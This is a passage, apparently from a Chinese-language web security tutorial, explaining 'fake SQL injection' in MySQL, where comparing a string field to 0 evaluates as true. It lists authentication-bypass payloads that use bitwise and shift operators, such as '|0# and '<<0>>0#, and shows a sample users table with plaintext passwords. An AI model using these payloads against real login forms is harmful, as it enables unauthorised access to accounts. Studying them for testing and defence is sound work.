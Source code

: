 因为在id字段没有任何字符串，所以不会有返回结果。 事实上，从这里我已经看到，如果在MySQL字符串字段为0的情况下，返回结果始终为真。根据这个现象，以下语句结果为真。

```
mySQL> select * from users where id=0;
+-----+-----------+----------+
| num | id        | password |
+-----+-----------+----------+
|   1 | admin     | ad1234   |
|   2 | wh1ant    | wh1234   |
|   3 | secuholic | se1234   |
+-----+-----------+----------+
3 rows in set (0.00 sec)

```

如果你在ID中输入0，所有内容都将被显示。这就是假SQL注入的原理。无论如何，结果为0（真）将使得登录成功。为了使结果为0（真），你需要一些东西处理整数，如使用位操作和算术运算。

下面是使用位运算的例子。

或位运算为任何程序员所熟知。正如我之前告诉过你的，''等于0。如果你计算“0或0”，结果还是0. 所以下面的假SQL注入能成功登录。

```
'|0#

```

当然，你也可以使用和运算。

```
'&0#

```

这是使用异或运算的攻击方法

```
'^0#

```

同样可以使用移位操作。

```
'<<0#
'>>0#

```

如果你喜欢使用位操作，你可以使用多种不同的攻击方法。

```
'&''#
'%11&1#
'&1&1#
'|0&1#
'<<0|0#
'<<0>>0#

```
